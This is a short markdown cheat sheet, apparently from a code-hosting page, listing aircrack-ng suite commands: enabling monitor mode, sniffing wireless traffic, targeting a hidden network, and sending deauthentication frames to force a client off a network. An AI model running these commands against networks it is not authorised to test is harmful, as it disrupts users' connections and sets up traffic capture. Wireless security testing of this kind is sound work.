#### find wireless interface

```
ifconfig
```

#### Monitoring Wireless network

```
sudo airmon-ng start wlan0
sudo airodump-ng mon0
sudo airodump-ng –c 11 mon0

#### Hidden network ESSID : . 
sudo airodump-ng -c 1 --bssid XX:XX:XX:XX:XX:XX mon0

#### disconnect a client

sudo aireplay-ng --ignore-negative-one -0 15 -c CLIENT BSSID -a NETWORK BSSID mon0
```

